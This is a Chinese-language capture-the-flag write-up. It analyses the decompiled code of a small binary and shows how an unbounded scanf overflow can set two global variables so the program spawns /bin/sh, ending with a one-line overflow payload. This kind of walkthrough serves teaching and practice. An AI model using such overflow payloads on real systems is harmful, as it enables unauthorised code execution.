

先查看防护，防护很全面



观察反汇编代码

~~~asm
000112a1        data_14094 = 0
000112a8        data_14098 = 0
000112af        init()
000112be        puts(str: "What's your name?")
000112d7        __isoc99_scanf(format: "%s", &var)
000112d7        
000112ef        if ((data_14094 | data_14098) == 0)
00011302            printf(format: "%s, Welcome!\n", &var)
00011314            puts(str: "Try do something~")
000112ef        else if (((data_14094 ^ 0x11) | data_14098) != 0)
00011380            printf(format: "something wrong! val is %d", var, data_14064, data_14068, 
00011380                data_1406c, data_14070, data_14074, data_14078, data_1407c, data_14080, 
00011380                data_14084, data_14088, data_1408c, data_14090, data_14094, data_14098)
00011331        else
0001133d            system(line: "/bin/sh")

~~~

看到有一段判断条件，分析条件可以得出如下结论

```
(a | b) == 0   等价于   a == 0 && b == 0
```

~~~
else if (((data_14094 ^ 0x11) | data_14098) != 0)
~~~

也就是说我们想要拿到shell需要达成的条件是data_14094 = 0x11, data_14098 = 0

观察汇编代码

~~~
0001129b  8d8360000000       lea     eax, [ebx+0x60]  {var}
000112a1  c7403400000000     mov     dword [eax+0x34], 0x0  {data_14094} 
000112a8  c7403800000000     mov     dword [eax+0x38], 0x0  {data_14098} 
~~~

eax = ebx+0x60

data_14094 = eax + 0x34

data_14098= eax +0x38

因为输入函数为__isoc99_scanf，所以没有限制输入长度，目标是通过溢出到两个变量从而控制判断条件，获取shell。由于猜测本题目无需溢出到rip所以猜测canary无影响所以直接尝试溢出。成功获取shell

payload构造

~~~
payload = b'A'*0x34+p32(0x11)+p32(0)
~~~

